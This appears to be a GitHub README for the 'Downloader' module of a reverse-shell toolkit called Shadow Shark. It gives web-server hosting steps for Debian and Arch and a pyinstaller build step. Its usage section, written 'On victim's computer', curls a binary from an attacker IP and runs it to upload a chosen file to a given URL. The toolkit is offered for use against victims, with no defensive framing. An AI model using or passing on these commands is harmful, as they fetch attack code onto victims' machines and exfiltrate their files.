 # Downloader
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> Downloader module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /var/www/html/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/Downloader.git
$ sudo chown -R www-data:www-data /srv/http/Downloader/
$ cd Downloader/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/Downloader/Downloader.(exe, app, etc) --output Downloader.(exe, app, etc)
$ Downloader.(exe, app, etc) --file (File) --url (Url to send the file to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico Downloader.py
```
